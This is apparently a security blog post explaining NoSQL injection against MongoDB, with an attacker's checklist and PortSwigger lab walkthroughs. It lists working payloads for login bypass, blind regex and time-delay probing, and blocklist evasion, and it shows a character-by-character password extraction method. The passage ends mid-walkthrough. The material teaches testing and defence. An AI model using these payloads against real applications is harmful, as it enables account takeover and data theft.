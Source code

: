 ```yaml
---
layout: post
title: NoSQLi
subtitle: Insert NoSQL query to bypass authentication and retrieve data from the database 
date: 2025-07-30 09:59
author: Ren Sie
comments: true
category: injection
thumbnail-img: /assets/img/githubpost/NoSQLi_thumb.png
share-img: /assets/img/Post_Cover.png
---
```


Refer: [OWasp A03:2021](https://owasp.org/Top10/A03_2021-Injection/)

NoSQL injection is similar to SQL injection in that it allows an attacker to manipulate or inject malicious input into a NoSQL query to retrieve, modify, or delete data. However, the key difference lies in the database type and query language.  
* SQLi
  * SQL database (E.g., MariaDB, MySQL, PostgreSQL)
  * Structure Query Language

* NoSQLi
  * Semi-structured database (E.g., MongoDB, CouchDB)
  * JSON-like documents or key-value pairs

### Types of NoSQLi
1. Syntax injection: Attacker injects an unclosed string literal (`'`), to break the query’s logic.
2. Operator injection: Attacker injects NoSQL operator (`$gt`, `$lt`, `$eq`, `$ne`, `$regex`, etc.) into the query, changing the query’s logic to return unintended results or bypass authentication.

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  
  1. **What is the technology stack you're attacking?**  
      * Frontend technologies (e.g., React, Angular)  
      * Backend frameworks and languages (e.g., Node.js, Django)  
      * Web server (e.g., Apache, Nginx)  
      * Database (SQL or NoSQL)  
      * Other middleware, caching, cloud services, and tools that make up the full system  

  2. **What NoSQL DB is being used?**  
      * MongoDB, Amazon DynamoDB, Apache Cassandra, Neo4j, etc.

  3. **Verify injection points:**  
      * URL parameters (`?user=admin&id=123`)  
      * Form fields (e.g., login forms or search boxes)  
      * HTTP headers (e.g., cookies, user-agent, authorization token, X-Forwarded-For, etc.)  

  4. **Test with different operators:** `$eq`, `$ne`, `$gt`, `$gte`, `$lt`, `$lte`, etc.  

  5. **Can you trigger different responses?**  
      * Successful Authentication Bypass  
      * Data Disclosure  
      * Error Messages  
      * Application Behavior Change (e.g., listing additional items, showing admin-only features, etc)  
      * Partial or Conditional Responses (e.g., responses exist if a condition is true and not if false)  
      * Out-of-band (data retrieved from a third party apis)  
      * No Response or Timeout  
      * Second-order Effects (Payloads stored and executed later cause delayed changes or access)  

  6. **Test for login bypass:**(e.g., `{"$ne": ""}`)  

  7. **Test for blind NoSQLi:** (e.g., `username=admin password={"$regex": "^a"}`)  
      * If login behaves differently when varying regex, blindness confirmed  

  8. **Test for errors:** (e.g., `category='\"{;$Foo}\n$Foo \xYZ\0`)  
      * If the server returns an error message or 500 status, error-based injection is possible.

  9. **Test for conditional responses:** (e.g., `category='fizzy' && 1==1 versus category='fizzy' && 1==0`)  
      * See if content or status differs indicating injection logic control.

  10. **Test for conditional errors:** (e.g., `{"$where": "this.username == 'admin' && undefinedFunc()"}`)  
      * An error occurs only if the condition matches.

  11. **Test for time delays:** (e.g., `{"$where": "sleep(5000)"}`)  

  12. **Test for out-of-band interactions**  
      * Inject NoSQL operators that cause the database to make DNS/HTTP requests to an attacker-controlled server via functions or extensions.

  13. **Is there a blocklist?** (e.g., disallowing `$ne`, `$or`, or special symbols)  

  14. **Can we bypass the blocklist?**  
      * Using different encodings (e.g., URL encoding, Unicode)  
      * Exploiting incomplete blocklists that only filter some operators or keywords  
      * Using alternate operator names or synonyms (e.g., `$not` instead of `$ne`)  
      * Taking advantage of application logic errors  
      * Using payloads that do not rely on blocked keywords but still affect query logic (e.g., `$where` with time delays or logic conditions )
</details>

### Lab
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#nosql-injection) to show how this vulnerability can lead to:

#### 1. Detecting NoSQL injection
The product category filter for this specific web application is powered by MongoDB, I utilize NoSQL injection that causes the application to display unreleased products.  
  
Firstly, I capture and modify the `GET /filter?category=(category)` request using Burp Repeater.  
Then testing the vulnerability by using a single quote `'` to break the query and trigger a server error.  
After identifying the vulnerability, I insert boolean/truthy expression payloads to manipulate the server response with Burp Repeater and reveal hidden items.  
  ~~~
  GET /filter?category=Pets '||'1'=='1 or
  GET /filter?category=Pets '||1|| '
  ~~~

#### 2. NoSQL operator injection to bypass authentication  
The login functionality for this specific application is powered by MongoDB. Which can be potentially vulnerable to NoSQL injection using MongoDB operators. Our goal is to log into the application as the administrator user.  
  
To test the operator injection vulnerability, I use Burp Proxy to capture the `login request`, and change the `password parameter value` with MongoDB operators on Burp Repeater
 ~~~
{"username": "user1", "password":{"$ne":"dgdfg"}}
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as user1 with password is not equal to dgdfg.  
 > HTTP/2 302 Found  
 > Location: /my-account?id=user1  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

Now that I know the web application is vulnerable to NoSQL injection, I will try using regex for all common administrator usernames and repeat the same process as the previous step for the password.
 ~~~
 {"username":{"$regex":"adm.*"},"password":{"$ne":""}} 
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as admin9hhcmyfb with password is not equal to blank.  
 > HTTP/2 302 Found  
 > /my-account?id=admin9hhcmyfb  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

{: .box-note}
**Note:** Refer to [MongoDB Documentation](https://www.mongodb.com/docs/php-library/current/crud/query/specify-a-query/) for more details about its operators

#### 3. Exploiting NoSQL injection to extract data 
The user lookup functionality for this instnace is powered by a MongoDB NoSQL database. It is possibly vulnerable to NoSQL injection. Our goal is to extract the password for the administrator user, then log in to their account.
Firstly 
To test the vulnerability, I start off sending a single character with in GET `/user/lookup?user=`
 ~~~
 GET /user/lookup?user=' 
 ~~~
 > Response: The message in the response indicates this is vulnerabile to NoSQLi  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 58  
 > {"message": "There was an error getting user details"}  

Then I modify and send a Boolean expression in Burp Repeater to discover a hidden user, such as "administrator": 
 ~~~
 GET /user/lookup?user=wiener'||'1'=='1 
 ~~~
 > Response: It provides me the available user's information  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 96  
 > {"username": "administrator", "email":"admin@normal-user.net", "role":"administrator"}

Now we have the username, time to figure out thier password. I use Burp Intruder to submit numeric payloads (1–30) and determine that the administrator's password length is 8 by studying the Length of the response: 
 ~~~
 administrator' && this.password.length == §1§ 
 ~~~
![Burp Intruder Response](https://rencybersec.github.io/assets/img/githubpost/NoSQLi_1.png)

After determining the password length, I use Intruder’s Cluster Bomb attack mode to discover each character of the password. The first payload position represents the index (0–7) of each character in the administrator's password, while the second payload position represents the character (a–z) to test at each position. We will reuse the same technique from the previous step, where we analyze the response length to determine which letter appears in the password.
 ~~~
 administrator' && this.password[§0§] == '§a§
 ~~~
